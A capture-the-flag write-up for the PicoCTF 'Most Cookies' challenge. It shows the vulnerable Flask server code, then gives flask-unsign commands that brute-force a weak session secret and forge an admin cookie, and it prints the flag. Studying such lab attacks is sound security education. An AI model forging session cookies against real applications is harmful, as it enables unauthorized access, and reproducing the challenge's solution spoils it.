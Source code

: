 # PicoCTF Most Cookies

This is a fairly simple web challenge from PicoCTF 2021 (iirc)

We get access to a web page with what seems to be search functionality, and we see that we have access to the server's backend code, which is stored in a file called `server.py`. It's source is as follows:

```py
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

There are 2 main takeaways from this...
 - The app's secret key is randomly chosen from a short list of known values, this can be brute forced in seconds with very little effort.
 - We need to change the value of the `very_auth` key in the cookie from `"blank"` to `"admin"`, and we should have access to the flag

To brute force the cookie's secret, we can use a tool called [flask-unsign](https://pypi.org/project/flask-unsign/) which can be installed through pip. 

The content of my session cookie was `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YOCbHA.nawf7Joe6wcigUbARIyaIUOWoSA`. I copied all of the values from the list `cookie_names` and stored them inside a file called `cookie_names.txt`
and then brute-forced the secret using the command `flask-unsign --unsign -c "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YOCbHA.nawf7Joe6wcigUbARIyaIUOWoSA" --wordlist ./cookie_names.txt` Which gave the following output...

```bash
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'butter' 
```

Now that we know the secret key, as well as what the session cookie decodes to, we can simply change the value of `"very_auth"` to `"admin"` and sign the cookie ourselves:

`flask-unsign -s -c "{'very_auth': 'admin'}" --secret 'butter'`, which gives us a value of `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YOCcZw.KjTQ7xLf7wgaarXArDsWsF3218g` for our session cookie.

Going back to the website, change our session cookie to the previously signed value and we get the flag :) 

`picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}`
